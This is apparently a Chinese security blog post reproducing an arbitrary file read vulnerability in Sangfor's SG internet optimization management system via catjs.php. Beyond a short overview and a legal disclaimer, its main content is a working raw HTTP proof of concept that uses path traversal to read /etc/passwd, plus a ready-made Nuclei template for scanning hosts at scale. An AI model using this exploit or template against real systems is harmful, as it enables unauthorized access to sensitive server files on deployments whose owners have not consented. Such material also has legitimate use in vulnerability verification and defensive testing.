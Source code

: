 #  【漏洞复现】深信服SG上网优化管理系统catjs.php任意文件读取漏洞 附POC   
YGnight  night安全   2023-10-12 21:03  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXKkfhZx9pRCUfvMAibuyyKcqkre0yrOV0Sc8YxlMKupVaDA7dCTIKol4g/640?wx_fmt=gif "")  
  
公众号新规  
只对常读  
和  
星标的公众号才能展示大图推送，  
建议大家把公众号“  
n  
i  
g  
h  
t  
安  
全”设为  
星  
标  
，  
否  
则  
可  
能  
就  
看  
不  
到  
啦  
！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXKHom3VoibZNT4A2a55gpRYic11wrialHQyhkufykLIM6vIwC7tr3sE9SKQ/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXKZnDbw7DhNgtPBu2ibEpN2v7qicDkKyIA9lk99zxNwOvWLxk85LBIoib3Q/640?wx_fmt=jpeg "1697110242794028.jpg")  
  
  
免责声明  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/SaibaRNhOjqg4CicjYhkyn7j8xeutLIIGlA3Pam1Oxz5ujOUsmPibr5J9NCiagtp8nGEEXPeJiaUeWkN3v1XXSS9Vfw/640?wx_fmt=gif "")  
  
  
  
night安全致力于分享技术学习和工具掌握。然而请注意不得将此用于任何未经授权的非法行为，请您严格遵守国家信息安全法律法规。任何违反法律、法规的行为，均与本人无关。如有侵权烦请告知，我们会立即删除并致歉。谢谢！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/oMlX8Lll9JhtrlOVpAFwbbnTXyrqweQO0kKLSPTRtSL4MEXjM3TdHU1GMhb3ysoFV3ic9hKDLibzic6T7ADMnfNnA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
漏洞概述  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
  
深信服 SG上网优化管理系统 catjs.php 存在任意文件读取漏洞，攻击者可利用该漏洞直接读取服务器敏感文件。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXK5EVCaLCYMWb6qEveicrAdN96sA7bQW6zUkHmhlWfj2P2cyqh8ibdBVKg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
  
POC:  
  
```
POST /php/catjs.php HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 35
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
 
["../../../../../../../etc/passwd"]
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXKRiaYLLaZUxdalJRBShR9NegcOTP1YQ1Zr9NOEbHlYvuQjuMIaicyhQ6Q/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDu5LeMykBibiaorwCvYEX2sxq5lVYw4iaddx0qYlbQ6fAyXd22dcFOiads8w/640?wx_fmt=gif "")  
  
NUCLEI POC  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgmBny4eMeJJOramdTQiciaDuYRDXO8rZ2DX4p68v8aWfzp0XSlDyFJvENtj4DwOjoB5CaZVMPnfFYQ/640?wx_fmt=gif "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXKfWF7u8bGRaD9gHV9pBK9b7OXM3W60WN21Vax6fxTsibjBLfUIkrwEtw/640?wx_fmt=png "")  
  
```
id: sangfor-sg-catjs-fileread
 
info:
  name: 深信服SG上网优化管理系统catjs.php任意文件读取漏洞
  author: YGnight
  severity: high
  description: description
  reference:
    - https://
  tags: tags
 
requests:
  - raw:
      - |-
        POST /php/catjs.php HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
        Content-Length: 35
        Accept-Encoding: gzip, deflate
        Content-Type: application/x-www-form-urlencoded
 
        ["../../../../../../../etc/passwd"]
 
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200
      - type: word
        words:
          - 'root:'
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/oMlX8Lll9JhtrlOVpAFwbbnTXyrqweQO0kKLSPTRtSL4MEXjM3TdHU1GMhb3ysoFV3ic9hKDLibzic6T7ADMnfNnA/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXKpciaqHNr4Y60SPF1XeS358wiceQDUm8K5zh7RZsnknYxKJ37kkkcpWZg/640?wx_fmt=gif "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/SaibaRNhOjqhXmCUxdZR0bITTD3G86qXKaehOcQPNxCFMKoEU9icdQfLRW5AIhL360ZtsWx3rRcsnQOcnXLUTNibA/640?wx_fmt=png "")  
  
****  
扫  
码  
关  
注  
  
获  
得  
更  
多  
资  
讯  
  
****  
  
